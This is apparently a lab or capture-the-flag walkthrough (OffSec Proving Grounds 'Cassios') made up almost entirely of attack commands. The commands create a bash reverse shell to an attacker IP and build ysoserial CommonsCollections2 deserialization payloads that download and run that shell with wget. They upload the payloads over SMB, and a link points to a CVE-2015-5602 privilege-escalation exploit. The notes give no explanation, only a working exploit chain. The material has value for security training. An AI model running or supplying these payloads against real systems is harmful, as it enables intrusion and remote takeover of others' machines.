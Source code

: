 

```
echo 'bash -i >& /dev/tcp/192.168.49.129/80 0>&1' > shell.sh ; chmod +x shell.sh
```

```
java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'wget http://192.168.49.129/shell.sh -O /tmp/shell.sh' > recycler.ser
```

```
mbclient --no-pass -N "\\\\192.168.129.116\\Samantha Konstan" -p 445
put /home/kali/Documents/OffSecPG/Cassios/recycler.ser recycler.ser
```

```
java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'bash /tmp/shell.sh' > recycler.ser
```

```
mbclient --no-pass -N "\\\\192.168.129.116\\Samantha Konstan" -p 445
put /home/kali/Documents/OffSecPG/Cassios/recycler.ser recycler.ser
```

[CVE-2015-5602](https://github.com/t0kx/privesc-CVE-2015-5602/blob/master/exploit.sh)
